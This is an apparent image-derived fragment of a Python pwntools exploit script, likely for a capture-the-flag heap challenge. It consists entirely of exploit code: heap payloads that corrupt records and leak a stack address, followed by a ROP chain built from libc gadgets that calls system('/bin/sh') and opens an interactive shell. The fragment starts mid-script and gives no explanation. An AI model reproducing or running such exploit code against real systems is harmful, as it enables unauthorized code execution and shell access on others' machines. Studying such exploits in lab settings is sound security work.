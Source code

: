 ```python
pl+=p64(0)+p64(0x411)
edit_record(2,0,0x40d+0x30,pl)
add_record(1,0x401-4,b'\x04')
show_record(1,0)
p.recvuntil(b'Varchar: ')
p.recv(0x3fd)
stack=u64(p.recv(8))-0x120
log.info('stack: '+hex(stack))
pl=b'\x00'*0x405+p64(0x31)+p64(stack-0x500)*2+p64(stack-0x100)+p64(stack-0x500)
pl+=p64(0)+p64(0x411)
edit_record(2,0,0x40d+0x30,pl)
add_record(1,0x401-4,b'\x05')
rdi=libcbase+0x2a3e5
ret=libcbase+0x29139
system=libcbase+libc.symbols['system']
bin_sh=libcbase+next(libc.search(b'/bin/sh\x00'))
rop=p64(ret)+p64(rdi)+p64(bin_sh)+p64(system)
#gdb.attach(p)
edit_record(1,0,0x49d+len(rop),b'\x00'*0xd+(0x490//8)*p64(ret)+rop)
p.interactive()
```
